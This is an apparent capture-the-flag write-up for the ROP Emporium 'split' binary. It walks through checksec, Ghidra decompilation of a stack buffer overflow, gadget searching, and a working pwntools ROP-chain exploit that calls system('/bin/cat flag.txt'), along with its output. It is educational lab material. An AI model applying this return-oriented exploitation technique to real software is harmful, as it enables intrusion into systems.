 # Split

## First look

```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ checksec split
[*] '/home/vein/rop_emporium/split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ ./split     
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> test
Thank you!

Exiting
```
The NX is enabled so it prevents running code into the stack, so we can't do a shellcode attack
```
## Static Analysis

```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("split by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```

```c
void pwnme(void)

{
  undefined local_28 [32];
  
  memset(local_28,0,0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,local_28,0x60);
  puts("Thank you!");
  return;
}
```
```c

void usefulFunction(void)

{
  system("/bin/ls");
  return;
}
```
We open Ghidra and we saw that a pwnme() function is called by the main.
We see that has a buffer overflow in the local_28 variable cause it's 32 bytes long
and the read() takes up to 96 = 0x60

# Exploitation
Challeneg description talks about a string that we maybe need to solve it.
We found it with rabin2 but we also can with Ghidra and with pwndbg.
It's the "/bin/cat flag.txt"
```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ rabin2 -z split  
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt

What we want to do is to navigate to usefulFunction() function and put inside the system()
the string "/bin/cat flag.txt" to take the flag.
To achieve this we want a rop gadget to pop it into the stack
```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ ropper -f split --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret;
```

So, now we are ready to craft our payload.
Here is the python script
```python3
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./split', checksec=False)
p = process()
context.log_level = 'info'

offset = b'a' * 40

pop_rdi = 0x4007c3      # pop rdi; ret;
bin_cat = 0x601060      # /bin/cat "flag.txt"
system_addr = 0x40074b  # and the system()

payload = offset
payload += p64(pop_rdi)
payload += p64(bin_cat)
payload += p64(system_addr)

p.sendlineafter(b'>', payload)
log.info(p.recvuntil(b'}')) # to receive only until the end of the flag
```
```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ ./exploit.py                      
[+] Starting local process '/home/vein/rop_emporium/split/split': pid 8091
/home/vein/.local/lib/python3.11/site-packages/pwnlib/log.py:396: BytesWarning: Bytes is nots
  self._log(logging.INFO, message, args, kwargs, 'info')
[*]  Thank you!
    ROPE{a_placeholder_32byte_flag!}
[*] Stopped process '/home/vein/rop_emporium/split/split' (pid 8091)
```
